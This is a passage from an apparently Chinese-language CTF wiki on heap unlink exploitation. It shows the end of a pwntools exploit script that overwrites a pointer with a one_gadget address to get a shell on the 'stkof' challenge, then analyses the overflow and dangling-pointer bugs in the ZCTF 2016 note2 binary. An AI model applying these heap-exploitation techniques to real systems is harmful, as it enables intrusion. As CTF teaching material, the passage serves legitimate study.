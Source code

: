 ```python
        Edit(io, 1, 0x08, p64(one_gadget_addr))
        Free(io, 1)
        try:
            io.sendline("id")
            log.info(io.readline(timeout=3))
        except Exception, e:
            io.close()
            continue
        io.interactive()

if __name__ == "__main__":
    binary = "./bins/a679df07a8f3a8d590febad45336d031-stkof"
    main(binary, "")
```


## 2016 ZCTF note2
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2016_zctf_note2)

### 分析程序

首先，我们先分析一下程序，可以看出程序的主要功能为

- 添加note，size限制为0x80，size会被记录，note指针会被记录。
- 展示note内容。
- 编辑note内容，其中包括覆盖已有的note，在已有的note后面添加内容。
- 释放note。

仔细分析后，可以发现程序有以下几个问题

1. 在添加note时，程序会记录note对应的大小，该大小会用于控制读取note的内容，但是读取的循环变量i是无符号变量，所以比较时都会转换为无符号变量，那么当我们输入size为0时，glibc根据其规定，会分配0x20个字节，但是程序读取的内容却并不受到限制，故而会产生堆溢出。
2. 程序在每次编辑note时，都会申请0xa0大小的内存，但是在 free 之后并没有设置为NULL。

第一个问题对应在ida中的代码如下

```c
unsigned __int64 __fastcall ReadLenChar(__int64 a1, __int64 a2, char a3)
{
  char v4; // [sp+Ch] [bp-34h]@1
  char buf; // [sp+2Fh] [bp-11h]@2
  unsigned __int64 i; // [sp+30h] [bp-10h]@1
  __int64 v7; // [sp+38h] [bp-8h]@2

  v4 = a3;
  for ( i = 0LL; a2 - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == v4 )
      break;
    *(_BYTE *)(i + a1) = buf;
  }
  *(_BYTE *)(a1 + i) = 0;
  return i;
}
```
